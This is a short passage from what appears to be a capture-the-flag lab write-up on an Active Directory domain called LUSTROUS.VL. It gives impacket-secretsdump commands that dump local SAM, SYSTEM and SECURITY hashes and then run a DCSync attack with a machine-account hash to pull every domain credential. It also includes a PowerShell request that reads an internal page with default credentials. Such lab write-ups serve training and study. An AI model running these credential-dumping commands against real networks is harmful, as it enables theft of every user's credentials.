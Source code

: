 ```shell
impacket-secretsdump -system SYSTEM.save -sam SAM.save -security SECURITY.save local
```

After dumping SYSTEM, SAM and SAVE files, we can use the LusDC$ NTLM to perform a **DCSync attack**

```shell
impacket-secretsdump -outputfile hashes_file -just-dc LUSTROUS.VL/'LusDC$'@LusDC.lustrous.vl -hashes '<redacted>:<redacted>'
```

This will dump ALL the credential of all the user

# Side note 
Without RDP access one could replace the snippet 

```powershell
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --profile-directory="Default" --auth-server-whitelist="LusDc.lustrous.vl"
```
with a powershell that will print to stdout the content of the page

```powershell
(iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials).Content
```

